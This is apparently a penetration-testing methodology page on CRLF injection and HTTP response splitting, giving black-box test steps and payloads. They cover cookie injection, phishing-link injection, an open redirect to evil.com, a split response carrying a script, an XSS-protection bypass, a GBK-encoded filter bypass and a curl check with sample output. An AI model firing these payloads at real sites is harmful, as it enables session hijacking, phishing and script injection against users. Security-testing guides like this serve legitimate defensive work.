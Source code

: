 # HTTP Splitting Smuggling

## Check List

## Methodology

### Black Box

#### Basic CRLF Injection

{% stepper %}
{% step %}
Modify the query parameter by injecting a CRLF sequence to add a custom header

```http
GET /page?input=home%0d%0aSet-Cookie:crlf=injected
```
{% endstep %}

{% step %}
Check the response headers for the injected Set-Cookie: crlf=injected. If present, the endpoint is vulnerable

{% hint style="info" %}
The important thing is that if you inject the payload and get a 400 in response, it can indicate that the server is vulnerable, but if it gives a 404 in response, it means that the server is not vulnerable
{% endhint %}
{% endstep %}
{% endstepper %}

***

#### Cookie Injection

{% stepper %}
{% step %}
Inject a CRLF sequence to manipulate cookies

```http
GET /page?input=home%0d%0aSet-Cookie:hacked=true
```
{% endstep %}

{% step %}
Verify if the response includes the injected cookie `(hacked=true)` or affects session behavior
{% endstep %}
{% endstepper %}

***

#### Redirection/phishing

{% stepper %}
{% step %}
CRLF Injection can be used to inject links that redirect users to phishing sites

```http
%0d%0a%0d%0a%3CA%20HREF%3D%22https%3A%2F%2Fexample.com%2F%22%3ELogin%20Here%20%3C%2FA%3E%0A%0A
```
{% endstep %}

{% step %}
Observe if the browser redirects to phishing page
{% endstep %}
{% endstepper %}

***

#### Open Redirect

{% stepper %}
{% step %}
Inject a Location header to redirect to a malicious site

```http
GET /page?input=home%0d%0aLocation:https://evil.com
```
{% endstep %}

{% step %}
Observe if the browser redirects to https://evil.com
{% endstep %}
{% endstepper %}

***

#### HTTP Response Splitting

{% stepper %}
{% step %}
By injecting %0d%0a (Carriage Return + Line Feed), an attacker can split the server’s HTTP response into two parts. This enables manipulation of headers and body content in unexpected ways

```http
/vulnerable-endpoint?q=abc%0d%0aContent-Length:0%0d%0a%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type:text/html%0d%0a%0d%0a<script>alert('Unk9vvN!')</script>
```
{% endstep %}

{% step %}
`%0d%0a` → Ends the current header line and A new `HTTP/1.1 200` OK response starts with a malicious script in the body
{% endstep %}
{% endstepper %}

***

#### Test XSS Protection Bypass

{% stepper %}
{% step %}
Inject a payload to disable XSS protections and execute JavaScript

```http
GET /page?input=home%0d%0aX-XSS-Protection:0%0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
{% endstep %}

{% step %}
Verify if the response includes X-XSS-Protection: 0 and the script executes
{% endstep %}
{% endstepper %}

***

#### Test GBK-Encoded CRLF Bypass

{% stepper %}
{% step %}
If standard CRLF payloads are blocked, use GBK-encoded characters

```
GET /page?input=home%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=unk9vvn
```
{% endstep %}

{% step %}
Check if the response includes the injected Set-Cookie: crlfinjection=unk9vvn
{% endstep %}
{% endstepper %}

***

#### [CRLF Injection Using cURL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CRLF%20Injection/Files/crlfinjection.txt)

{% stepper %}
{% step %}
Test for CRLF Injection using cURL

```
curl -I "https://target.com/page?input=home%0d%0aSet-Cookie:crlf=injected"
```
{% endstep %}

{% step %}
Check the response headers for set-cookie: crlf=injected

```http
HTTP/2 301
date: Mon, 12 May 2025 12:46:42 GMT
content-type: text/html
location: https://example.com/
set-cookie: crlf=injected; -> vulnerability
```
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet
